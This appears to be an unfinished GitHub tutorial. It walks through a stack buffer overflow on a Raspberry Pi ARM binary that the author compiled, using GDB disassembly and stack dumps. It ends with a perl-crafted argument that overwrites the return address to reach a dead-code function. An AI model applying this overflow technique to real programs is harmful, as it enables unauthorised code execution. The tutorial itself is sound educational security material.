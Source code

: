 # Buffer overflow on ARM architecture
To be completed :sweat_smile:

## Prerequisites
-	A RaspberryPi and a distro. For this tutorial, I had an up-to-date Raspbian Stretch Lite with LXDE.
-	GCC and GDB.

## ARM registers and stack
TODO

## An example of buffer overflow
### Initial state
- We have a binary without its source code but compiled with debug information.
- We know how to use it: `./prog2 PASS` where `PASS` is a 4-character string.
- We would like to know if there's interesting stuff or even dead code in it.

### Playground
Run GDB:
```bash
gdb prog2
```
What we can disassemble with GDB:
```assembly
(gdb) disassemble
/usr/include/arm-linux-gnueabihf/bits/sys_errlist.h  __gmon_start__                                       frame_dummy
/usr/include/arm-linux-gnueabihf/bits/types.h        __gmon_start__@plt                                   int
/usr/include/libio.h                                 __init_array_end                                     long int
/usr/include/stdio.h                                 __init_array_start                                   long long int
/usr/lib/gcc/arm-linux-gnueabihf/6/include/stddef.h  __libc_csu_fini                                      long long unsigned int
_DYNAMIC                                             __libc_csu_init                                      long unsigned int
_GLOBAL_OFFSET_TABLE_                                __libc_start_main                                    main
_IO_2_1_stderr_                                      __libc_start_main@plt                                prog2.c
_IO_2_1_stdin_                                       __off64_t                                            puts
_IO_2_1_stdout_                                      __off_t                                              puts@plt
_IO_FILE                                             __quad_t                                             register_tm_clones
_IO_lock_t                                           _bss_end__                                           short int
_IO_marker                                           _edata                                               short unsigned int
_IO_stdin_used                                       _end                                                 signed char
__FRAME_END__                                        _fini                                                size_t
__JCR_END__                                          _init                                                sizetype
__JCR_LIST__                                         _start                                               stderr
__TMC_END__                                          abort                                                stdin
__bss_end__                                          abort@plt                                            stdout
__bss_start                                          call_weak_fn                                         strcpy
__bss_start__                                        char                                                 strcpy@plt
__data_start                                         completed                                            sys_errlist
__do_global_dtors_aux                                data_start                                           sys_nerr
__do_global_dtors_aux_fini_array_entry               deregister_tm_clones                                 unsigned char
__dso_handle                                         dont_touch_this                                      unsigned int
__end__                                              exit
__frame_dummy_init_array_entry                       exit@plt
```
Lots of stuff there... We can find at least two interesting:
- `main`
- `dont_touch_this`. Yes, I compiled the code myself for this tutorial. Of course, you should not name critical code like this!

Let's disassemble the main function
```assembly
(gdb) disassemble main
Dump of assembler code for function main:
   0x000104b8 <+0>:     push    {r11, lr}
   0x000104bc <+4>:     add     r11, sp, #4
   0x000104c0 <+8>:     sub     sp, sp, #16
   0x000104c4 <+12>:    str     r0, [r11, #-16]
   0x000104c8 <+16>:    str     r1, [r11, #-20] ; 0xffffffec
   0x000104cc <+20>:    ldr     r3, [r11, #-20] ; 0xffffffec
   0x000104d0 <+24>:    add     r3, r3, #4
   0x000104d4 <+28>:    ldr     r2, [r3]
   0x000104d8 <+32>:    sub     r3, r11, #8
   0x000104dc <+36>:    mov     r1, r2
   0x000104e0 <+40>:    mov     r0, r3
   0x000104e4 <+44>:    bl      0x1032c <strcpy@plt>
   0x000104e8 <+48>:    mov     r3, #0
   0x000104ec <+52>:    mov     r0, r3
   0x000104f0 <+56>:    sub     sp, r11, #4
   0x000104f4 <+60>:    pop     {r11, pc}
End of assembler dump.
```
- No call to `dont_touch_this`. It means this is a dead code section. Why?
- Oh, `strcpy`! We found a breach! This functions must not be used nowadays as it doesn't check buffer length (https://security.web.cern.ch/security/recommendations/en/codetools/c.shtml). We should try a buffer overflow at this line.

If we disassemble `dont_touch_this`, we can get the entry point of this function (address `0x0001049c`):
```assembly
(gdb) disassemble dont_touch_this
Dump of assembler code for function dont_touch_this:
   0x0001049c <+0>:     push    {r11, lr}
   0x000104a0 <+4>:     add     r11, sp, #4
   0x000104a4 <+8>:     ldr     r0, [pc, #8]    ; 0x104b4 <dont_touch_this+24>
   0x000104a8 <+12>:    bl      0x10338 <puts@plt>
   0x000104ac <+16>:    mov     r0, #0
   0x000104b0 <+20>:    bl      0x1035c <exit@plt>
   0x000104b4 <+24>:    andeq   r0, r1, r8, ror #10
End of assembler dump.
```
Putting a breakpoint right after the `strcpy`: 
```assembly
(gdb) break *0x000104e8
Breakpoint 1 at 0x104e8: file prog2.c, line 14.
```
Running the program with valid input and checking registers and stack values:
```assembly
(gdb) run AAAA
Starting program: /home/pi/Documents/tutorial/prog2 AAAA
Breakpoint 1, main (argc=2, argv=0x7efff684) at prog2.c:14
14          return 0;
```

```assembly
(gdb) info registers
r0             0x7efff524       2130703652
r1             0x7efff7d7       2130704343
r2             0x0      0
r3             0x9      9
r4             0x104f8  66808
r5             0x0      0
r6             0x10374  66420
r7             0x0      0
r8             0x0      0
r9             0x0      0
r10            0x76fff000       1996484608
r11            0x7efff52c       2130703660
r12            0x7efff524       2130703652
sp             0x7efff518       0x7efff518
lr             0x104e8  66792
pc             0x104e8  0x104e8 <main+48>
cpsr           0x20000010       536870928
```
```assembly
(gdb) x/16x $sp
0x7efff518:     0x7efff684      0x00000002      0x00000000      0x41414141
0x7efff528:     0x00000000      0x76e80678      0x76fa5000      0x7efff684
0x7efff538:     0x00000002      0x000104b8      0x76ffecf0      0x7efff5d0
0x7efff548:     0xf35a2f10      0xfb4ddc14      0x000104f8      0x00000000
```
- In the stack, we can see our `AAAA` as `0x41414141` (ASCII codes, little-endian).
- `0x76e80678` is the return address.

Same thing with longer input:
```assembly
(gdb) run ABCDABCD
Starting program: /home/pi/Documents/tutorial/prog2 ABCDABCD
```

```assembly
(gdb) x/16x $sp
0x7efff518:     0x7efff684      0x00000002      0x00000000      0x44434241
0x7efff528:     0x44434241      0x76e80600      0x76fa5000      0x7efff684
0x7efff538:     0x00000002      0x000104b8      0x76ffecf0      0x7efff5d0
0x7efff548:     0xc9cf5894      0xc1d8ab90      0x000104f8      0x00000000
```
- As expected, we find the `0x44434241` twice (corresponds to `DCBA`).  

```assembly
(gdb) continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x76e80600 in __libc_start_main (main=0x7efff684, argc=1996115968, argv=0x76e80600 <__libc_start_main+156>, init=0x104f8 <__libc_csu_init>,
    fini=0x10558 <__libc_csu_fini>, rtld_fini=0x76fdf9b8 <_dl_fini>, stack_end=0x7efff684) at libc-start.c:247
247     libc-start.c: No such file or directory.
```
If we continue the program execution, we see a segfault while the return address is `0x76e80600`..
There's already a buffer overflow here. However, it would be useful to redirect it to the `dont_touch_this` method to see what's in there.

```bash
pi@raspberrypi:~/Documents/tutorial $ ./prog2 $(perl -e 'print "ABCDABCD\x9c\x04\x01";')
The master key is 0xDEADBEEF
```
YES! We entered the dead code and found a master key :smiling_imp:
- `ABCDABCD` to fill the stack with some bytes (it could be anything).
- The next 3 bytes are the entry point of `dont_touch_this` in little endian (see GDB output).
- I was lucky because this binary was compiled without stack protection. It seems a bit crazy but, on a default Raspbian distro, the `fstack-protector` flag is not enabled...

If I tried my buffer overflow attack when the binary has been compiled with the stack protector, I would get the following message:
```bash
*** stack smashing detected ***: ./prog2 terminated
Aborted__
```

## References
https://www.merckedsecurity.com/blog/smashing-the-arm-stack-part-1

http://billyellis.net/
